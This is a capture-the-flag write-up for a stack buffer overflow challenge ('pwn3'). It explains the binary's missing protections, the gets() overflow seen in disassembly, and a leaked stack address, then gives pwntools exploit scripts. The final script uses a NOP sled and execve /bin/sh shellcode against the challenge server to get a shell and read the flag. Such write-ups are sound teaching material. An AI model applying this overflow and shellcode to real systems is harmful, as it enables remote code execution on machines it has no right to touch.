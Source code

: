 ## pwn3
#### Making it a habit that whenever there's a pwn chall, we need to check the security measures first using the *checksec* utility from pwntools:
```
$ checksec pwn3
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
#### As we can see, the output is different from the previous pwn challenges. This binary has no canary and has NX disasbled - meaning we can execute code on the stack. More details [here](http://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/). Basically, no canary means that we can do some kind of a buffer overflow on the stack, since no measures are put in place to determine whether some part of it is overwritten. NX, short-hand for 'non-executable', is disabled meaning segments of the binary are not only writeable, but also executable. We run the binary to have an initial look at what it does:
```
$ ./pwn3
  Take this, you might need it on your journey 0xff92adce!
```
#### From what we see, it prints out that string and waits for user input afterwards. The printed string comes with some kind of an address (which changes everytime the binary is executed) which will be useful later on. We then fire up gdb to look at the inner workings of the challenge. 
```
$ gdb ./pwn3
  gdb-peda$ disas main
   [...]
   0x00000612 <+47>:	add    esp,0x10
   0x00000615 <+50>:	call   0x59d <echo>
   0x0000061a <+55>:	mov    eax,0x0
   0x0000061f <+60>:	lea    esp,[ebp-0x8]
   [...]
```
#### The call to a function called ```echo``` is interesting, let's have a deeper look at it by disassembling the function:
```
gdb-peda$ disas echo
  Dump of assembler code for function echo:
     0x0000059d <+0>:	  push   ebp
     0x0000059e <+1>:	  mov    ebp,esp
     0x000005a0 <+3>:	  push   ebx
     0x000005a1 <+4>:	  sub    esp,0x134
     0x000005a7 <+10>:	call   0x4a0 <__x86.get_pc_thunk.bx>
     0x000005ac <+15>:	add    ebx,0x1a20
     0x000005b2 <+21>:	sub    esp,0x8
     0x000005b5 <+24>:	lea    eax,[ebp-0x12a]
     0x000005bb <+30>:	push   eax
     0x000005bc <+31>:	lea    eax,[ebx-0x191c]
     0x000005c2 <+37>:	push   eax
     0x000005c3 <+38>:	call   0x410 <printf@plt>
     0x000005c8 <+43>:	add    esp,0x10
     0x000005cb <+46>:	sub    esp,0xc
     0x000005ce <+49>:	lea    eax,[ebp-0x12a]
     0x000005d4 <+55>:	push   eax
     0x000005d5 <+56>:	call   0x420 <gets@plt>
     0x000005da <+61>:	add    esp,0x10
     0x000005dd <+64>:	nop
     0x000005de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
     0x000005e1 <+68>:	leave  
     0x000005e2 <+69>:	ret    
  End of assembler dump.
```
#### The function loads whatever are in the locations ```[ebp-0x12a]``` and ```[ebx-0x191c]``` into the stack and used as arguments for the printf call. Recalling what we have got so far with the initial start up of the binary, we know that ```[ebx-0x191c]``` in this part stores the address which is printed. Looking below the disassembly, we see a ```gets``` call which stores the input into the buffer at ```[ebp-0x12a]```. The size of the buffer is 0x12a(298) and that is the exact offset at which the stack can be started to be overwritten.
#### Putting together what we already know, we can perform a buffer overflow attack and execute some code in the stack. So our exploit method will be a buffer overflow into executing shellcode. To do that, we need the address of the stack - but that isn't a problem anymore since the address for the stack is already given at the start of the program. So our exploit method will be buffer overflow into changing eip to stack address and placing our shellcode in there for the stack to execute. We create a simple exploit.py script and test it locally to see if it's able to execute our sigtrap:
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
p = process('./pwn3')

#: Get the esp provided
prompt = p.recv()
print(prompt)
stack = int(prompt.split()[-1][:-1], 16)

#: Exploit code
offset = 'A' * 302
esp = p32(stack)
sigtrap = '\xCC'
exploit = offset + esp + sigtrap

#: Send data
p.sendline(exploit)
print(p.recv())
```
#### We run the script, but we get an error:
```
[*] Process './pwn3' stopped with exit code -11 (SIGSEGV) (pid 919)
```
#### Let's try to redirect the output of the script into a file and use gdb to analyze what's happening.
```
$ python exploit.py > exploit
$ gdb ./pwn3
    gdb-peda$ r < exploit
        [...]
        0xffffd069:	inc    ecx
        0xffffd06a:	inc    ecx
        0xffffd06b:	inc    ecx
     => 0xffffd06c:	ds iret 
        0xffffd06e:	(bad)  
        0xffffd06f:	dec    esp
        0xffffd071:	int3   
        0xffffd072:	int3
        [...]
```
#### We see here that the program stops even before it reaches our int3 (sigtrap) instructions. This is due to the ```ds iret``` call which switches program execution into user mode. What I did was to look for another address in the stack which can be able to execute our code. I don't remember the exact details of how I did this, but what I do remember is that I found some address on the stack that executes the sigtraps, noted it, subtracted it with the given stack address on the start of the program, and got the exact offset to begin executing code - stack + 311. After we point the eip into that address of the stack, we'd need to perform a short nopsled (a sequence of NOP (no-operation) instructions meant to "slide" the CPU's instruction execution flow to its final, desired destination whenever the program branches to a memory address anywhere on the slide) in order to call our shellcode. The shellcode I will be using is handcrafted (needed to learn the basics of shellcoding. Great resource [here](https://0x00sec.org/t/linux-shellcoding-part-1-0/289)). We know create our final exploit script to connect with the challenge server, get a shell, and print out our flag:
#### exploit.py
```python
from pwn import *

#: Connect to challenge server
HOST = 'pwn.tamuctf.com'
PORT = 4323
p = remote(HOST,PORT)

#: Get the esp provided
prompt = p.recv()
print(prompt)
stack = int(prompt.split()[-1][:-1], 16)

#: Exploit code
offset = 'A' * 302
esp = p32(stack + 311)
nopsled = '\x90' * 10
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\xb0\x0b\xcd\x80'
exploit = offset + esp + nopsled + shellcode

#: Send data
p.sendline(exploit)
p.sendline('cat flag.txt')
print(p.recv())
```
#### And finally, after 3 days of being stuck at the challenge, we get the flag.
```
$ python exploit.py

Take this, you might need it on your journey 0xffdb4d5e!

gigem{r3m073_fl46_3x3cu710n}
```
